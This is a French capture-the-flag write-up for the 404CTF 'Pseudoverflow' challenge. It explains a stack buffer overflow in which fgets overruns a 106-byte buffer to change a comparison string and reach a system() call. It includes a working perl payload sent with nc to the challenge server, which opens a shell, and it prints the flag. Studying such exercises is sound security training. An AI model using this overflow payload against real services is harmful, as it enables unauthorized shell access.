

# Pseudoverflow



----

Le fichier fourni est un fichier 64 bits :

```sh
$ file course
course: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=74c3be86c1c3aa9eaa680f3a81f6925ed3ec0fd6, for GNU/Linux 4.4.0, not stripped
```

Celui-ci ne dispose pas de protection d'overflow de la stack :

```sh
$ checksec course
[*] '/404CTF2024/course'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

La décompilation avec IDA Freeware permet de récupérer le code en C des principales fonctions :

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[106]; // [rsp+0h] [rbp-70h] BYREF
  char s1[6]; // [rsp+6Ah] [rbp-6h] BYREF

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  strcpy(s1, "perds");
  puts(::s);
  fgets(s, 256, stdin);
  if ( !strcmp(s1, "gagne") )
    win(s);
  else
    puts("Nous vous recontacterons dans les prochaines semaines.");
  return 0;
}

int __fastcall win(const char *a1)
{
  return system(a1);
}
```

On voit que si on arrive à appeler `win` avec `/bin/sh` en paramètre, on pourra alors obtenir un shell sur le serveur.

Pour que `win` soit appelé, il est nécessaire que `s1` soit égal à la chaine `"gagne"` (ie : `s1 == 'gagne\x00'` - ne pas oublier le `nul` indiquant la fin d'une chaine en C). Mais celle-ci est initialisée à `"perds"`.

Cependant, comme sur la stack, la chaine `s1` est positionnée juste avant la chaine `s`, respectivement en `rbp-6h` et `rbp-70h`, un overflow de `s` permet de venir écraser le contenu de `s1`.

Un overflow va pourvoir être réalisé grâce à la fonction `fgets` qui remplit `s` avec au plus `256` caractères fournis en entrée, alors que sa capacité maximale de stockage a été définie à `106`. Ainsi à partir du 107ème caractères saisis, on remplit `s1`.

On peut commencer par valider l'exploit en local :

```sh
$ cat <(perl -e 'print "/bin/sh" . " " x 93 . ";echo " . "gagne\x00" ') - | ./course
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :

whoami
philou44
exit
gagne
```

Avant de le réaliser sur le serveur et récupérer le flag `404CTF{0v3rfl0w}` :

```sh
$ cat <(perl -e 'print "/bin/sh" . " " x 93 . ";echo " . "gagne\x00" ') - | nc challenges.404ctf.fr 31958
Bienvenue à la course annuelle du 404CTF!!
Pour pouvoir participer, nous avons besoin de votre pseudo :

ls
course
flag.txt
cat flag.txt
404CTF{0v3rfl0w}

exit
gagne
```
